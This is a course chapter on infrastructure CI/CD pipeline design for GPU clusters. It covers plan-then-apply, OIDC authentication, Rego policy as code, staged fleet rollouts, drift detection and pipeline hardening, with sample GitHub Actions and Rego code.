


# 4.2 CI/CD pipelines: concepts and design

| | |
|---|---|
| Level | Intermediate |
| Priority tier | 0 |
| Lab venue | GitHub/GitLab runner or local `act`; Terraform/OpenTofu, Ansible, Conftest, Packer optional |
| Part | Part 4: Automation and infrastructure as code |
| Status | Drafted, labs **untested** |

## Why this matters for AI infrastructure

Picture a Friday afternoon change advisory board (`CAB`) meeting. An engineer has filled out a change ticket describing a BGP peering and kernel sysctl update across the GPU cluster, spent forty minutes on a conference call reciting a rehearsed summary to managers who have never seen the switch configuration, received a verbal thumbs-up, and then opened twenty SSH windows at midnight to paste the commands by hand. One typo later—a missing colon in a YAML file or a BGP route leak—the storage fabric drops offline while a thousand GPUs sit idle. As Christian Adell, Scott Lowe, Matt Oswalt, and Jason Edelman observe in *Network Programmability and Automation* Chapter 13 (`NPA` Chapter 13), keeping humans in the direct manual execution path of infrastructure changes is **Change Management Theater**: it is slow, exhausting, and provides only the illusion of safety because the prose description in the ticket is not the actual change that gets typed onto the machine.

Application CI/CD ships a stateless artefact that can be rolled back in seconds. Infrastructure CI/CD changes stateful, shared, expensive and sometimes physical things: GPU nodes that cost tens of dollars per hour, InfiniBand fabrics, Slurm controllers, firmware, storage clusters holding checkpoints. A wrong merge can idle a thousand GPUs, delete a bucket, or take a fabric offline. The discipline is therefore different: instead of humans sitting *in* the direct execution path pasting commands from laptops, **humans sit *above* the automated pipeline**—designing the tests, reviewing the exact diff and computed plan in Git, and improving the guardrails. Pipelines must produce **evidence** (what will change, is it safe, who approved) before anything **mutates**, must limit blast radius, must be auditable, and must hold the keys to production without becoming the easiest way to compromise it. This chapter explains the concepts and design patterns (tool specifics for Terraform, Ansible and GitOps follow in 4.3 to 4.27).

## Prerequisites and outcomes

Needs 4.1 (Git workflow). After this chapter you can:

- Contrast application CI/CD with infrastructure CI/CD and explain "CI produces evidence, CD controls mutation".
- Design a pipeline with stages for static analysis, security scanning, policy checks, plans, tests, approvals, deployment, verification and rollback.
- Use pull requests as the control plane (plan on PR, apply on merge) and know Atlantis, GitHub Actions, GitLab CI, Jenkins, and AWX/AAP roles.
- Authenticate pipelines without long-lived secrets (OIDC federation); manage secrets in pipelines; apply least privilege per environment.
- Apply policy as code (OPA/Rego, Conftest, Sentinel, Checkov), golden image pipelines (Packer), canary and batch rollouts for physical fleets, and drift detection.
- Test infrastructure code at several levels and decide what runs on every commit versus nightly.

## 1. Application CI/CD versus infrastructure CI/CD

| Dimension | Application pipeline | Infrastructure pipeline |
|---|---|---|
| Artefact | Immutable build (image, binary) | Desired-state code plus a computed **change set** (plan/diff) |
| Target | Stateless, replicated | Stateful, shared, sometimes physical |
| Failure cost | Rollback in seconds | Destroys data, strands capacity, may be unrecoverable |
| Test environments | Cheap ephemeral | Expensive; GPU clusters and fabrics rarely duplicable |
| Rollback | Redeploy previous version | Revert code **and** reconcile reality; some changes (firmware, deleted volumes, migrated data) cannot be undone |
| Trigger | Every merge, many times a day | Fewer, reviewed, often windowed; blast-radius-aware |
| Credentials | Deploy token to a registry/cluster | Broad cloud/admin credentials: the highest-value secrets in the company |

Consequences: plan before apply, human approval for risky changes, narrow permissions, staged rollout, and drift detection because the real world changes outside the pipeline (console clicks, autoscalers, hardware failures).

### Foundations from *Network Programmability and Automation* (Ch. 13) and *Ansible: Up and Running* (Ch. 22)

Before wiring YAML workflow files, two foundational mental models from `NPA` Chapter 13 and `AUR` Chapter 22 set the stage for reliable infrastructure pipelines:
- **Martin Fowler's Continuous Integration definition (2006) and Continuous Delivery vs. Continuous Deployment:** In his classic 2006 article cited in `AUR` Chapter 22, Martin Fowler defined **Continuous Integration (CI)** as the practice where team members integrate their work frequently (at least daily), with each integration verified by an automated build and test run so integration errors are caught immediately: *"Anyone should be able to bring in a virgin machine, check the sources out of the repository, issue a single command, and have a running system on their machine."* **Continuous Delivery (CD)** means keeping your codebase and configurations in an **always-deployable state** verified in staging so they *can* be deployed to production on demand or on a scheduled maintenance window, whereas **Continuous Deployment** pushes every passing change straight into production automatically—which is rarely desirable for physical switches or stateful GPU clusters without staged gates.
- **Simple, "cookie-cutter" designs beat "snowflakes" (`NPA` Chapter 13):** The single biggest prerequisite for infrastructure CI/CD has nothing to do with Python or Jenkins—it is eliminating hand-crafted "snowflake" devices and standardizing on repeatable, cookie-cutter rack and fabric designs so a single Jinja2 template or Ansible role applies cleanly across the fleet.
- **Test-Driven Development (`TDD`) for infrastructure (`NPA` Chapter 13):** When engineers write tests *after* building a feature (or changing a network), test coverage is inevitably skipped under deadline pressure, accumulating technical debt. **TDD** flips the lifecycle: gather requirements -> design -> **write the automated test first (which initially fails)** -> write the configuration or code that makes the test pass. For network and GPU infrastructure, TDD forces you to codify what "working" actually means from the application's perspective—not just whether a switch accepted a CLI stanza, but whether BGP peers are established, RDMA/TCP connectivity works, and end-to-end bandwidth and latency meet SLOs.
- **The five components of an infrastructure CI/CD pipeline (`NPA` Chapter 13's `Templatizer` walkthrough):**
  1. **Peer review (`GitHub` Pull Requests, `GitLab` Merge Requests, `Gerrit` changes/patchsets requiring `git commit --amend`, or `Bitbucket`):** Instead of asking permission in a CAB meeting before starting work, an engineer cuts a branch (`git checkout -b add-interface-template`), adds `datafiles/interfaces.yml` and `templatizer/templates/interfaces.j2`, and opens a Merge Request where teammates (`Fred`) comment and vote `+1` on the exact diff.
  2. **Build automation (`.gitlab-ci.yml` and `tox`):** Human reviewers still miss syntax errors—in `NPA` Chapter 13 (`Examples 13-4` to `13-7`), both the author and the reviewer missed a missing colon on line 8 of `datafiles/interfaces.yml` (`yaml.scanner.ScannerError: could not find expected ':'`). Adding `tools/validate_yaml.py` and **Tox** (`tox -epep8` for PEP 8 style, `tox -epy38` for unit tests, and `tox -ecover` / **Codecov** for test coverage) to `.gitlab-ci.yml` runs automatically on every push *before* a human reviewer spends time on the PR.
  3. **Deployment validation across three layers:** Validating a single box's static config is not enough for a distributed fabric; pipelines must validate (a) **Operational state** (expected number of active BGP peers, link states, GPU ECC counters via **NAPALM**, **Batfish**, or **Forward Networks**), (b) **Basic connectivity** (can workloads reach storage and control-plane endpoints?), and (c) **End-to-end performance** (bandwidth, latency, and packet loss via active probes like **NetBeez**, **ThousandEyes**, `iperf3`, or `nccl-tests`, plus streaming model-driven telemetry).
  4. **Test / dev / staging virtual topologies:** Reusing the same **Vagrant**, **Containerlab**, or **Terraform** virtual reference topology across local development and CI pipeline stages catches distributed routing and convergence bugs before touching hardware—while remembering two caveats: virtual NOS images cannot emulate hardware ASIC line-rate performance or RoCEv2 buffers, and virtual test topologies suffer entropy unless continuously kept in sync with production.
  5. **Deployment strategies and `WISB == WIRI`:** Choose explicitly between **Deploy in place** (blindly updating all nodes at once—avoid in production), **Rolling** (one node/batch at a time), **Canary** (deploying to a small, representative production slice such as one data-center row or pod and pausing to evaluate telemetry), and **Blue/Green** (provisioning a parallel virtual environment, such as a new VRF, routing adjacency, or GKE node pool, and shifting traffic over for instant rollback). When pushing device configurations, ensure **What It Should Be (`WISB`) equals What It Really Is (`WIRI`)**—for example, using Junos XML `<bgp operation="replace">` so stale neighbor stanzas removed from Git are actually removed from the router rather than lingering as merged leftovers.

## 2. Core principles

1. **CI produces evidence; CD controls mutation.** Continuous integration answers "is this change well-formed, safe and understood?" with logs, lint results, plans, policy decisions and test reports attached to the pull request. Continuous delivery/deployment is the controlled application of an *approved, specific* change. Never let a pipeline apply something nobody saw.
2. **Plan-then-apply of the same artefact.** Save the plan (`terraform plan -out=tfplan`), review it, and apply exactly that file; re-planning at apply time can produce a different change than the one approved.
3. **Everything as code, reviewed in Git** (4.1): the repository is the source of truth; the pipeline is a transformation from commit to environment.
4. **Environments are configuration, promotion is a commit.** The same module and artefact flow dev, staging, prod; only variables differ.
5. **Least privilege and separation of duties.** Plan jobs get read-only credentials; apply jobs get write credentials only for their environment, run only on protected branches, and need approval; the author cannot be the sole approver.
6. **Idempotent, repeatable, observable.** Re-running a failed pipeline is safe; every run is logged with commit, actor, plan hash and result.
7. **Small batches, fast feedback.** Short pipelines for most changes; heavier checks nightly; smaller change sets limit blast radius.
8. **The pipeline is production software**: version it, test it, monitor its health, protect its runners and secrets, and treat compromise of CI as compromise of production.

## 3. Pipeline anatomy

```mermaid
flowchart LR
  A["Pull request"] --> B["Static analysis\nfmt, validate, lint, yamllint, shellcheck"]
  B --> C["Security & secrets scan\ngitleaks, trivy/checkov, tfsec"]
  C --> D["Plan / dry-run / diff\nterraform plan, ansible --check, helm template"]
  D --> E["Policy as code\nOPA/Conftest, Sentinel, cost checks"]
  E --> F["Unit / integration tests\nmolecule, terratest, kind"]
  F --> G["Human review + approval\nCODEOWNERS, environment gates"]
  G --> H["Merge to main"]
  H --> I["Deploy: apply saved plan\nstaging then canary then fleet"]
  I --> J["Verify\nsmoke tests, health checks, SLO watch"]
  J -->|fail| K["Rollback / stop the line"]
  J -->|ok| L["Promote next env"]
```



Typical stages and what belongs in each:

- **Static checks (seconds)**: formatting (`terraform fmt -check`, `ruff`, `yamllint`), syntax/validation (`terraform validate`, `ansible-playbook --syntax-check`, `helm lint`, `kubeconform`), linters (`tflint`, `ansible-lint`, `hadolint`, `shellcheck`, `actionlint`).
- **Security scans**: secret detection (gitleaks, trufflehog), IaC misconfiguration scanners (Checkov, tfsec/trivy config, KICS), dependency and container image scanning (trivy, grype), licence checks, SBOM generation.
- **Plan / dry run**: compute and publish the change set as a PR comment and an immutable artefact: `terraform plan`, `ansible-playbook --check --diff`, `helm diff`, `kubectl diff`, `argocd app diff`. The plan is the review object.
- **Policy gates**: machine-enforced rules over the plan or manifests (no public buckets, required tags, allowed instance types, region allow-list, cost ceilings, no deletion of protected resources, network ingress limits). Section 7.
- **Tests**: unit-style (render templates, evaluate modules), integration in ephemeral environments (kind clusters, containers, a small cloud sandbox), and end-to-end on a staging slice; section 10.
- **Approval**: protected environments with required reviewers for production, manual gates for high blast radius, change-window checks.
- **Deploy**: apply the approved artefact with concurrency control (one apply per state/env at a time), staged by environment and by fleet slice.
- **Verify and observe**: smoke tests, health checks, SLO/alert watch for a soak period; automatic halt on regression.
- **Rollback / roll-forward policy**: for stateless pieces revert and redeploy; for stateful ones prefer roll-forward with a prepared fix, backups and tested restore procedures; document irreversible changes.

## 4. Pull requests as the control plane

For Terraform the dominant pattern is: **plan on pull request, apply on merge (or on an approved comment)**, with the PR as the audit trail. Tools:

- **Atlantis** (self-hosted): a server receiving webhooks; comments `atlantis plan` / `atlantis apply` on the PR; locks the workspace while a plan is pending so two PRs cannot apply conflicting changes; configured by `atlantis.yaml` (projects, workflows, `apply_requirements: [approved, mergeable]`) and server-side repo allow-lists that control what repos may override. It centralises credentials on one hardened server.
- **GitHub Actions / GitLab CI** doing the same with workflow files: PR event runs `plan` and posts it; a protected environment gates `apply` on `main`. Easier to adopt, but you must design locking (concurrency groups, state locks) and credentials carefully.
- **Terraform Cloud / HCP Terraform, Spacelift, env0, Scalr**: managed runs with policy, remote state, drift detection and RBAC.
- **Argo CD / Flux** for Kubernetes: PR changes manifests; the in-cluster controller applies after merge (4.26). **AWX / Ansible Automation Platform**: CI triggers job templates so playbooks run on a controller with credentials, RBAC, inventory and audit trail (4.15).

Design rules: only a merge to the protected branch can apply; the applied plan must match the reviewed commit; concurrency groups per environment/state; PR comments must not leak secrets (mask outputs, mark sensitive values); fork PRs never receive credentials.

## 5. Authentication: OIDC instead of stored keys

Long-lived cloud keys in CI secrets are a classic breach path. **OpenID Connect federation** lets the CI provider mint a short-lived signed identity token for each job; the cloud trusts the issuer and exchanges the token for temporary credentials scoped by claims (repository, branch, environment).

```yaml
# GitHub Actions: no stored cloud keys
permissions:
  id-token: write          # allow the job to request an OIDC token
  contents: read
jobs:
  plan:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: google-github-actions/auth@v2          # example: GCP Workload Identity Federation
      with:
        workload_identity_provider: projects/123/locations/global/workloadIdentityPools/ci/providers/github
        service_account: tf-plan@my-project.iam.gserviceaccount.com
    - run: terraform init -input=false && terraform plan -input=false -out=tfplan
```

On the cloud side, bind the identity to a service account with a **condition** on the claim (for example `repo:org/infra` and `ref:refs/heads/main` for apply, any PR for read-only plan) so a pull request from a fork or a feature branch cannot assume the apply role. The same pattern exists for AWS (IAM role with web identity trust policy), Azure (federated credentials) and Vault (JWT auth). Use separate identities for plan (read-only) and apply (write, protected environment).

**Secrets in pipelines**: prefer fetching at run time from a secret manager (Vault, cloud secret manager) using the OIDC identity; use masked variables only when unavoidable; never print them; remember that values read into Terraform data sources land in the **state file**, so the state backend is a secret store and must be encrypted and access-controlled (4.19, 4.22); for Git-stored secrets use SOPS with KMS/age or sealed secrets (4.12).

## 6. A reference GitHub Actions pipeline

```yaml
name: infra
on:
  pull_request:
    paths: ["terraform/**", "ansible/**", ".github/workflows/infra.yml"]
  push:
    branches: [main]
permissions: { contents: read, pull-requests: write, id-token: write }
concurrency:                                   # one pipeline per environment at a time
  group: infra-${{ github.ref }}
  cancel-in-progress: false                    # never cancel an in-flight apply

jobs:
  static:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: hashicorp/setup-terraform@v3
    - run: terraform fmt -check -recursive terraform/
    - run: |
        cd terraform/envs/staging
        terraform init -backend=false -input=false && terraform validate
    - run: pip install ansible-lint yamllint && yamllint . && ansible-lint ansible/
    - uses: gitleaks/gitleaks-action@v2

  plan:
    needs: static
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: hashicorp/setup-terraform@v3
    # cloud auth via OIDC (read-only role) goes here
    - run: |
        cd terraform/envs/staging
        terraform init -input=false
        terraform plan -input=false -lock-timeout=5m -out=tfplan
        terraform show -json tfplan > plan.json
    - name: Policy check
      run: conftest test terraform/envs/staging/plan.json --policy policies/
    - uses: actions/upload-artifact@v4
      with: { name: tfplan, path: terraform/envs/staging/tfplan }

  apply-staging:
    if: github.ref == 'refs/heads/main'
    needs: plan
    runs-on: ubuntu-latest
    environment: staging                       # protected environment: reviewers, wait timer, branch rule
    steps:
    - uses: actions/checkout@v4
    - uses: hashicorp/setup-terraform@v3
    - uses: actions/download-artifact@v4
      with: { name: tfplan, path: terraform/envs/staging }
    - run: cd terraform/envs/staging && terraform init -input=false && terraform apply -input=false tfplan
```

(Action versions and flags are examples; pin to reviewed versions.) Production usually adds a second protected environment (`prod`) with required reviewers, a saved plan generated against the prod state, a change-window check, and a post-apply verification job. In a monorepo use path filters or a changed-directory matrix so a change to `envs/staging` does not plan production.

Equivalent patterns in other systems: GitLab CI (`stages`, `rules`, `environment:` with `when: manual`, protected variables, `resource_group` for locking), Jenkins (declarative pipeline with `input` approval steps and credential binding), Buildkite or Argo Workflows for heavy jobs on your own hardware.

### Self-hosted CI/CD stack and Jenkins Configuration as Code (`AUR` Chapter 22)

In *Ansible: Up and Running* Chapter 22 (*CI/CD and Ansible*), Bas Meijer, Lorin Hochstein, and René Moser walk through provisioning a complete self-hosted four-server CI/CD platform with Ansible—an architecture widely used in air-gapped or regulated AI data centers:
1. **The four core services (`nexus`, `git`, `sonar`, `jenkins`):**
   - **Artifact repository (`Sonatype Nexus 3` or `JFrog Artifactory`):** Deployed via `geerlingguy.java` and `ansible-thoteam.nexus3-oss` with `nexus_config_pypi: true` and `nexus_config_docker: true` so CI runners and cluster nodes pull Python wheels and container images through a local caching proxy.
   - **Self-hosted Git server (`Gitea` + `MySQL`):** Deployed via `community.mysql`, `do1jlr.mysql`, and `do1jlr.gitea` listening on port `3000` (`gitea_http_port: '3000'`, `gitea_db_host: '127.0.0.1:3306'`).
   - **Code quality & technical debt scanner (`SonarQube` + `PostgreSQL`):** Deployed via `community.postgresql`, `robertdebock.postgres`, and `lrk.sonarqube` (with `java-11-openjdk-devel` and the `ansible-lint` plugin) to track security hotspots and code smells across Python and Ansible repositories.
   - **CI server (`Jenkins` + `Docker`):** Deployed via `geerlingguy.jenkins` and `geerlingguy.docker` (`docker_users: [jenkins, vagrant]`), installing plugins for `ansible`, `ansible-tower`, `ansicolor`, `configuration-as-code`, `job-dsl`, `pipeline-stage-view`, `sonar`, and `ws-cleanup` (and manipulable via Ansible's `jenkins_job`, `jenkins_job_info`, `jenkins_plugin`, and `jenkins_script` modules or `jenkins-cli.jar` downloaded from `http://127.0.0.1:8080/jnlpJars/jenkins-cli.jar`).
2. **Jenkins Configuration as Code (`JCasC`) and `Job DSL` seed jobs:** Instead of clicking through the Jenkins web UI (where copied jobs quickly drift apart), Ansible templates `/var/lib/jenkins/casc_configs/jenkins.yaml` (`mode: '0440'`) and sets `JENKINS_JAVA_OPTIONS="-Djava.awt.headless=true -Djenkins.install.runSetupWizard=false -Dcasc.jenkins.config=/var/lib/jenkins/casc_configs"` in `/etc/sysconfig/jenkins` to configure on-demand tool installers (`ansible`, `git`, `jdk`, `Maven3`, `SonarScanner`) and point `jobs:` to `/home/jenkins/jobs.groovy`. The `jobs.groovy.j2` template loops over `git_repositories` (`ansible_role_ssh`, `ansible_role_ansible`, `ansible_role_web`) to generate a `pipelineJob` reading each repo's `Jenkinsfile`, activated via `java -jar jenkins-cli.jar -s http://127.0.0.1:8080/ -auth admin:... reload-jcasc-configuration`.
3. **Declarative `Jenkinsfile` for Molecule role testing and AWX / Automation Controller hand-off:** Each role repository's `Jenkinsfile` sets `options { disableConcurrentBuilds(); ansiColor('vga') }` and runs six sequential stages—`Build Environment` -> `Syntax` (`molecule syntax`) -> `Linting` (`molecule lint`) -> `Playbook` (`molecule converge`) -> `Verification` (`molecule verify`) -> `Idempotency` (`molecule idempotence`). For deployment, Jenkins either invokes `ansiblePlaybook` directly (`credentialsId: 'Machines'`, `vaultCredentialsId: 'ANSIBLE_VAULT_PASSWORD'`, `inventory: 'inventory/hosts'`, `limit: 'webservers'`) or, better yet in enterprise environments, uses the **Ansible Tower plugin (`ansibleTower`)** to trigger a pre-authorized **Job Template** (`jobTemplate: '1234'`, `towerServer: 'tower'`, `limit: 'web'`) on **Ansible Automation Controller (AWX/AAP)** so SSH and Vault credentials stay locked inside the controller with full RBAC and audit logging rather than living on Jenkins agents.

## 7. Policy as code

Humans miss things; policies do not get tired. Evaluate **machine-readable plans or manifests** against rules before merge or apply.

- **OPA / Rego + Conftest**: general-purpose; run `terraform show -json tfplan | conftest test -`, or on Kubernetes manifests and Helm output. **Sentinel** (HashiCorp Enterprise), **Checkov**/**tfsec**/**trivy config** (rule libraries), **Kyverno** and **Gatekeeper** (admission control inside Kubernetes, enforcing the same policies at runtime), **Cloud Custodian** (cloud resource policies).

```rego
package terraform.cost
import rego.v1

restricted_types := {"p5.48xlarge", "p4d.24xlarge"}            # high-cost GPU instances (example list)

created contains rc if {
    some rc in input.resource_changes
    rc.type == "aws_instance"
    "create" in rc.change.actions
    rc.change.after.instance_type in restricted_types
}

deny contains msg if {
    count(created) > 16
    not input.planned_values.root_module.resources[_].values.tags["Override-Capacity"]
    msg := sprintf("plan creates %d restricted GPU instances; add the Override-Capacity tag after approval", [count(created)])
}

deny contains msg if {
    some rc in input.resource_changes
    "delete" in rc.change.actions
    rc.change.before.tags["Mission-Critical"] == "true"
    msg := sprintf("%s is tagged Mission-Critical and cannot be deleted by pipeline", [rc.address])
}
```

(Rego syntax differs between OPA versions; the example uses the 1.x style.) Useful policy domains for AI infrastructure: **cost** (instance family allow-lists, maximum GPU count per plan, budget tags), **network** (no `0.0.0.0/0` on management ports, no public IPs on GPU nodes, required flow logs, MTU/jumbo settings on training networks), **IAM** (no wildcard admin, no long-lived keys, MFA, boundary policies), **data** (encryption at rest, bucket public-access block, retention on checkpoint buckets), **tagging** (owner, cost-centre, environment), **region/residency**, and **protected resources** (deny deletion of state buckets, production databases, shared storage). Treat policy changes like code: reviewed, tested with allow/deny fixtures, versioned, with an explicit break-glass process and logged overrides.

## 8. Golden images as pipeline artefacts

Fleets of GPU nodes should boot from **versioned, tested images** rather than being configured by hand after boot. A golden image pipeline (HashiCorp **Packer**, Image Builder, or `virt-customize`/OS-specific tooling) runs: base OS, Ansible roles (drivers, CUDA, container runtime, monitoring agents, kernel parameters), hardening, vulnerability scan, boot/driver smoke test on a real GPU instance (`nvidia-smi`, a short NCCL test), then publishes an immutable image ID plus metadata (git SHA, driver version, CUDA version, kernel, date, SBOM). Terraform or the provisioning system references the image version by ID; rollouts replace nodes rather than mutating them. Trigger rebuilds on base image updates, security advisories and role changes, and keep N previous images for rollback.



Packer builds can be slow and expensive on GPU instances: run smoke tests on the smallest GPU shape that exercises the stack, and run broader qualification in a separate scheduled job.

## 9. Rolling out to physical and large fleets

Applying a change "to everything" is the way to learn that it was wrong on every node at once. Staged rollout for fleets (Slurm clusters, bare-metal nodes, Kubernetes node pools):



Practices: drain nodes from the scheduler before disruptive changes (`scontrol update NodeName=... State=DRAIN Reason="..."`, `kubectl drain`), apply with limited concurrency (Ansible `serial:` and `max_fail_percentage`, rolling node-pool updates with `maxUnavailable`), run a **validation playbook** after each batch (driver loaded, GPUs visible, ECC clean, fabric links up at expected speed, a short NCCL all-reduce within tolerance, Slurm `sinfo` state), return nodes to service only when healthy, and make the pipeline stop automatically on failure thresholds. Include maintenance windows and capacity checks so a rollout never drains more than the SLO allows, and record every step for the post-incident timeline. Firmware and BIOS changes need extra care: stage by hardware generation, keep the previous version available, and verify the BMC reachable before and after (Part 7).

## 10. Testing infrastructure code

| Level | What | Tools | When |
|---|---|---|---|
| Static | Syntax, style, schema, security smells | `terraform validate/fmt`, `tflint`, `ansible-lint`, `yamllint`, `kubeconform`, `checkov` | Every commit |
| Unit-ish | Render templates; evaluate modules with mock inputs; policy tests | `terraform test` (mock providers), Conftest unit tests, Jinja rendering with golden outputs | Every commit |
| Plan-level | Is the diff what we intended? Does it respect policy? | `terraform plan`, `ansible --check --diff` | Every PR |
| Integration | Apply into an ephemeral environment and assert | Terratest (Go), `terraform test` with real providers, Molecule + testinfra, kind/k3d for Kubernetes | PR (small) or nightly |
| End-to-end | Real stack on a representative slice | Staging cluster, NCCL/nccl-tests, MLPerf-style smoke jobs | Pre-prod, nightly |
| Operational | Backup restore, failover, drift, chaos | Game days, restore drills, `terraform plan` on schedule | Scheduled |

Principles: the cost of a test should match the risk it covers; destroy ephemeral environments automatically (budgets and TTL tags guard against leaks); keep integration tests deterministic with unique names; flaky infra tests are bugs. Pre-commit hooks (4.1) run the cheapest checks locally; CI repeats them as required checks.

## 11. Drift detection and self-healing

Drift is the difference between code and reality: a console edit, an autoscaler, manual hotfix, failed partial apply or a hardware replacement. Detect it **on a schedule**:

- `terraform plan -detailed-exitcode` (exit code 2 means changes pending) in a nightly job per environment, posting results to chat/ticket; do not auto-apply for stateful resources.
- Argo CD/Flux continuously compare the cluster to Git and can auto-revert (`selfHeal`) or alert; Ansible `--check --diff` against fleets reveals configuration drift on hosts; AWX scheduled jobs can enforce desired state.
- Decide per resource class: **auto-heal** (stateless Kubernetes objects, config files) versus **alert only** (databases, buckets, networks, anything where a revert could destroy data), and record accepted exceptions.

```yaml
# nightly drift check (sketch)
on: { schedule: [ { cron: "0 3 * * *" } ] }
jobs:
  drift:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - run: |
        cd terraform/envs/prod
        terraform init -input=false
        set +e; terraform plan -input=false -detailed-exitcode -lock=false -out=drift.tfplan; rc=$?; set -e
        if [ "$rc" = 2 ]; then echo "DRIFT DETECTED"; terraform show -no-color drift.tfplan | head -200; exit 2; fi
```

## 12. Operating the pipeline itself

- **Runners**: ephemeral and isolated; self-hosted runners with network access to private infrastructure are high-value targets: run them in a restricted network zone, rebuild per job (containers or VMs), no shared state, no persistent credentials, egress filtering. GPU runners are labelled and reserved for GPU tests.
- **Supply chain**: pin actions and images by digest, verify checksums/signatures of Terraform providers and tools (`.terraform.lock.hcl`), mirror dependencies, restrict who can edit workflows (CODEOWNERS on `.github/`), treat `pull_request_target` and untrusted inputs (branch names, PR titles) as injection vectors, never interpolate untrusted values into shell commands.
- **Concurrency and locking**: state locking (backend), CI concurrency groups, Atlantis locks; never run two applies against one state; avoid cancelling in-flight applies.
- **Observability**: pipeline duration, failure rate, queue time, flake rate, change failure rate and mean time to recovery (the DORA metrics); alert on stuck applies and on long-lived pending plans.
- **Break-glass**: a documented, logged, time-limited path for emergency manual changes, followed by a reconciliation commit so Git matches reality.
- **Notifications and auditability**: plan and apply summaries to chat; keep logs and plan artefacts for the retention period required by compliance.

## 13. Lab

First, run the self-checking Python lab (`code/part04/cicd_pipeline_policy_lab.py`) locally. It verifies OPA/Rego-style policy evaluation on `terraform show -json tfplan` (`evaluate_terraform_plan_policies`, blocking `>16` restricted `p5.48xlarge` instances without `Override-Capacity` and blocking deletion of `Mission-Critical` resources), OIDC claim-to-role federation (`authorize_oidc_token_claims`, separating read-only PR `plan` from protected `main` `apply`), staged canary + batched fleet rollouts with `serial` and `max_fail_percentage` stop-the-line halting (`simulate_staged_fleet_rollout`), and `terraform plan -detailed-exitcode` drift classification (`classify_terraform_detailed_exitcode`).

```bash
python3 code/part04/cicd_pipeline_policy_lab.py
```

Next, on any machine with GitHub Actions / GitLab CI or `act` (all interactive shell steps below are `untested here`), work through these exercises:

1. **Pipeline skeleton**: create a repo with a tiny Terraform config (null/random providers or a local-only config) and an Ansible playbook; add the static job (fmt, validate, yamllint, ansible-lint, gitleaks). Break each check deliberately and watch the PR fail.
2. **Plan on PR**: add the plan job producing `tfplan` and posting the output as a PR comment; confirm the apply job downloads and applies exactly that artefact; change code after approval and observe the plan mismatch behaviour.
3. **Environments and approvals**: define `staging` and `prod` environments with required reviewers; try to apply from a feature branch (should be denied); add concurrency groups and verify two simultaneous runs serialise.
4. **OIDC**: configure workload identity federation to a sandbox cloud project (or a Vault JWT role); assert a feature-branch job gets read-only access and cannot assume the apply role; remove all static cloud secrets from the repo.
5. **Policy as code**: write the Rego cost and deletion policies; build allow/deny JSON fixtures; run `conftest verify`; wire into the pipeline; demonstrate a denial and the break-glass tag process.
6. **Atlantis (optional)**: run Atlantis locally with `ngrok`/tunnel on a test repo; observe workspace locking with two PRs.
7. **Golden image**: write a Packer template that builds a container or VM image with an Ansible role, scans it with trivy, runs a smoke test and publishes an image manifest with git SHA; switch a Terraform variable to the new image ID.
8. **Fleet rollout**: simulate 20 hosts (containers); write a rollout playbook with a canary group, a validation play, `serial: 5`, `max_fail_percentage: 10`; inject a failure on the canary and confirm the pipeline stops; inject a failure at batch 3 and confirm the halt threshold.
9. **Drift**: apply Terraform, change a resource out-of-band, and run the nightly drift job; resolve once by reapplying and once by importing/adopting the change; document the decision.
10. **Pipeline security review**: list every secret and permission your pipeline uses; replace long-lived ones with OIDC; test a malicious PR that edits the workflow and one that injects shell via branch name; apply fixes (CODEOWNERS on workflows, no `pull_request_target`, quoted inputs).
11. **Metrics**: compute lead time, deployment frequency, change failure rate and time to restore from your repo history for one month.
12. **Clean up.**

## 14. Common mistakes

- Re-planning at apply time instead of applying the reviewed plan artefact.
- Pipelines with admin credentials stored as long-lived secrets; one identity for plan and apply; fork PRs able to read secrets.
- No locking or concurrency control: two applies racing on one state or one fleet.
- Branch-per-environment instead of directory/variable-per-environment.
- Auto-applying on merge to production with no approval, window or verification; auto-heal for stateful resources.
- Applying to the whole fleet at once; no canary, no validation, no halt threshold.
- Policies that nobody can test or override cleanly, leading to disabled gates.
- Treating secrets in Terraform data sources as safe while the state file is world-readable.
- Slow, flaky pipelines that people bypass; checks that are optional rather than required.
- Unpinned actions, runners, providers and tool versions; self-hosted runners that retain state between jobs.
- No drift detection, so Git slowly stops describing reality.
- Rollback plans that assume everything is reversible.

## 15. Interview angles

- "How is infrastructure CI/CD different from application CI/CD?" (state, blast radius, evidence versus mutation.)
- "Design a pipeline for Terraform changes to a GPU cluster." (static, plan artefact, policy, approvals, apply of saved plan, verification, drift.)
- "How do you give CI access to the cloud securely?" (OIDC federation, scoped claims, separate plan/apply identities.)
- "How do you roll out a kernel parameter or driver change to 1,000 GPU nodes?" (drain, canary, validate, batches, halt rules.)
- "What is policy as code and what policies would you enforce?" (cost, network, IAM, tagging, protected resources.)
- "Push versus pull deployment: when each?" (CI-driven apply versus GitOps controllers.)
- "How do you detect and handle drift?" (scheduled plans, GitOps compare, auto-heal vs alert.)
- "What makes a pipeline itself a security risk and how do you reduce it?" (runner isolation, supply chain pins, workflow protection, least privilege.)
